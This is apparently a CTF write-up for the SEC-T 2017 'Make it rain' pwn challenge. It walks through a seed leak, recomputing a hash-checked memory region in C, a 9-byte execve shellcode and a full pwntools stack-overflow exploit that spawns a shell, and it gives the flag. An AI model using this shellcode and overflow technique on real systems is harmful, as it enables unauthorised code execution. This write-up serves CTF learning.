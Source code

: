 ```yaml
---
layout: post
title:  "SEC-T CTF 2017 - Make it rain"
date:   2017-09-15 22:00
tags: CTF
categories: [SECTCTF2017]
tags: [Pwn]
author: jbz
---
```

> Joey: Like four hours I'm just messing around in there. Finally I figure out, that it's a bank. Right, okay wait, okay, so it's a bank. So, this morning, I look in the paper, some cash machine in like Bumsville Idaho, spits out seven hundred dollars into the middle of the street.

This was a 250 points pwn challenge, I had a fun time solving it. In general this CTF was very fun and had very unique challenges. Plus the "Hackers" theme was awesome :)

Let's start with the usual initial recon on the binary, which is available [here](https://github.com/jbzteam/CTF/raw/master/SECTCTF2017/makeitrain/bank_15e31e6a4b5f7f89b03af4ddb8132879):

```bash
 $ file bank_15e31e6a4b5f7f89b03af4ddb8132879 
bank_15e31e6a4b5f7f89b03af4ddb8132879: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b60e073fa58bf97db29158b394480023f21e0aba, not stripped
 $ checksec bank_15e31e6a4b5f7f89b03af4ddb8132879 
[*] './bank_15e31e6a4b5f7f89b03af4ddb8132879'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

Almost all mitigations on... fun stuff. Let's see how it works with IDA. Keep in mind that I tend to clean-up/fix stuff so your output might be different.

`main()` is pretty easy, it only calls four functions:
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  init();
  login();
  create_secret();
  menu();
}
```
Let's do a quick overview of all the functions. We'll check their details as needed throughout the write-up:
- `init()`: after the usual couple of `setvbuf()` calls, it  reads 4 bytes from `/dev/urandom`, writes them in the variable `rand_data` in `.bss`, and uses that value as argument for `srand()`.
- `login()` reads a 9 bytes string in the `.bss` variable `username`, which is 8 bytes long and located right before `rand_data`. Duh!
- `create_secret()` allocates 200000 bytes of memory at `0x40000`, copies 9 bytes from `username`at the beginning of that memory segment, and fills the rest with random numbers. The memory at `0x40000` is `rx`, and becomes writeable only when things are written into it.
- `menu()` the meat of the program.

After this premise, let's see what the program actually does. This is the initial banner + menu:
```
BANK OF AMERICA (BOA)
Welcome <username>
===============
1) Change user
2) Make it rain!
3) Exit
```

`<username>` is the string we supplied in `login()`. It's easy to guess that if we supply a 8 byte string, when the variable is printed it will also print the value of `rand_data` as `username` is not null-terminated and, as said, is right before `rand_data` in `.bss`. Great, we can leak the `srand()` seed... we'll need it later!

Change user is pretty self-explanatory, we'll need this later as well.

Let's see what that "Make it rain" does:
```c
ssize_t __fastcall make_it_rain(__int64 a1, __int64 a2)
{
  verify_secure_hash();
  return withdraw();
}
```

`verify_secure_hash()` computes the SHA256 hash of the mapped memory area at `0x40000`, and compares it with an user-supplied hash. If they match, `withdraw()` is executed, which tries to fill a 16-byte array with 150 bytes. Here's our vuln! To access that code though, we need to pass the hash check. Fortunately we have all we need to do that, as we can leak the value of `rand_data`!

So let's plan our attack. We have to:
- leak `rand_data`
- pre-compute all the 200000 bytes at `0x40000` and SHA256-hash them
- pass hash validation part
- exploit the stack overflow vuln
- PROFIT!

As said, to leak `rand_data` we just have to provide a 8-byte string as the `username`. Easy peasy.

To pre-compute all the random numbers, I created a small C program that does it for me. I chose C to make sure that `rand()` behaved in the same way as the target program. My code takes the `rand_data` and `username` as input and spits all the 200000 bytes out, which can then be hashed. This is the source:
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char **argv) {
	if (argc < 3) {
		printf("fail\n");
		return 1;
	}
	char *username = argv[1];
	int seed = atoi(argv[2]);
	char *username2 = "\x53\x56\x5f\x5e\xb0\x3b\x99\x0f\x05";
	char buffer[200000];
	char *buffer_ptr;
	char *c;
	int i;
	srand(seed);
	strncpy(buffer, username, 8);
	buffer[8] = (char)seed;
	buffer_ptr = &buffer[9];
	for ( i = 0; i <= 199990; ++i )
	{
		c = &buffer_ptr[i];
		*c = rand();
	}
	memcpy(buffer, username2, 9);
	write(1, buffer, sizeof(buffer));
	return 0;
}
```

I'll tell you what `username2` is in a moment ;)

With the stack overflow vuln we can control `RIP`. But we have no libc leaks, the binary is PIE and there's NX... what to do? Well, remember that "Change username"? `username` fills the first 8 (actually 9) bytes of the memory at `0x40000`, so we can control an executable area of memory at a static address. How about putting a shellcode right there? You say 9 bytes are too small for a shellcode? Naah :) When the `ret` executes in `withdraw()`, the `rsi` register points to the string we just passed, and we can use it to store our "/bin/sh". So we only need to set the registers correctly to have a working shellcode:
```asm
push rbx # which is 0
push rsi # wich points to "/bin/sh"
pop rdi
pop rsi
mov al, 0x3b
cdq
syscall
```

Encoded, the shellcode is `53565f5eb03b990f05`: exactly 9 bytes. Looks familiar? Yes, it's the `username2` variable in the C code above. Since that values is at the beginning of the memory segment at `0x40000`, we need it to calculate the correct SHA256 hash.

Once everything is set, we overwrite our `RIP` with `0x40000` and the shellcode executes.

This is the final python code:
```python
from pwn import *
import subprocess

#p = process("./bank_15e31e6a4b5f7f89b03af4ddb8132879")
p = remote("pwn.sect.ctf.rocks", 31337)

username = "aaaaaaaa"
username2 = "53565f5eb03b990f05".decode("hex") # asm -f hex -c amd64 "push rbx; push rsi; pop rdi; pop rsi; mov al, 0x3b; cdq; syscall"
mapped = 0x00040000

# Leaking rand_data
# I could've used the shellcode here directly but I did this challenges in two phases and I didn't want to re-write the whole thing :)
p.sendafter("Username:", username)
leak = p.recvuntil("===").split(username)[1].split("\x0a")[0]
leak_int = u32(leak)
log.info("leak {} {}".format(leak.encode("hex"), leak_int))

# Changing username to our shellcode
p.sendafter("#>", "1")
p.sendafter(":", username2)
# yes I'm lazy... :)
sha256 = subprocess.check_output("./generate_random '%s' '%s' | sha256sum | cut -f1 -d' '" % (username, leak_int), shell=True)
log.info("sha256: {}".format(sha256))

# Passing the hash and exploiting the stack overflow
p.sendafter("#>", "2")
p.sendafter(":", sha256.strip())
p.sendafter("?:", "/bin//sh\x00" + "x"*15 + p64(mapped))

# profit
p.sendline("uname -a && id")
p.interactive()
```

And the flag is `SECT{h0p3_y0u_d1dnt_d0_th1s_fr0m_yoUr_HOUSE}`.

Happy hacking!
